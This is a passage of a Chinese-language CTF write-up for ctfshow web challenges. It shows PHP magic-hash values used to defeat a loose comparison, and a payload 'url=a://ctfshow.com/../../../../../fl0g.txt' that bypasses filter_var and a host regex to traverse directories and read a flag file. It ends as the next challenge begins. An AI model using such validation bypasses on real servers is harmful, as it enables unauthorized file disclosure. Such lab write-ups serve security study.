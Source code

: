 ```
```

运行结果： 

```
0e652024452
0e603448399
```

传入参数 `b=0e652024452&c=0e603448399` .

同时页面给出

```
 <?php 
$flag="flag in /fl0g.txt";
please give me url!!!
```

说明了flag 位置。

第三层：

```
if(filter_var($url[1],FILTER_VALIDATE_URL)){
                $host=parse_url($url[1]);
                print_r($host); 
                if(preg_match('/ctfshow\.com$/',$host['host'])){
                    print_r(file_get_contents($url[1]));
                }
```

* filter_var — 使用特定的过滤器过滤一个变量
* FILTER_SANITIZE_URL 	删除所有字符，除了字母、数字以及 $-_.+!*'(),{}|\^~[]`<>#%";/?:@&=

![0VrfFU.png](https://s1.ax1x.com/2020/09/28/0VrfFU.png)

![0VrTyR.png](https://s1.ax1x.com/2020/09/28/0VrTyR.png)

这里正则匹配host为 `ctfsohw.com`.

> php源码中，在向目标请求时先会判断使用的协议。如果协议无法识别，就会认为它是个目录。
所以我们就可以使用前面构造的payload(php如果识别不了就会当成一个目录)在进行目录穿越，穿越到根目录读取flag

构造payload : `url=a://ctfshow.com/../../../../../fl0g.txt`

对于payload a:为一个目录 ctfshow.com为1个目录
因为当前目录为/var/www/html，如果要跳到根目录需要向上跳3阶，再加上不存在的两个，共需要跳五阶目录

成功拿到flag `Array ( [scheme] => a [host] => ctfshow.com [path] => /../../../../../fl0g.txt ) flag{94c10135-dbf6-44b7-a625-4149e3fda509}`

## web3_莫负婵娟 

打开题目看到有个登录框。

![0VRXDJ.png](https://s1.ax1x.com/2020/09/28/0VRXDJ.png)
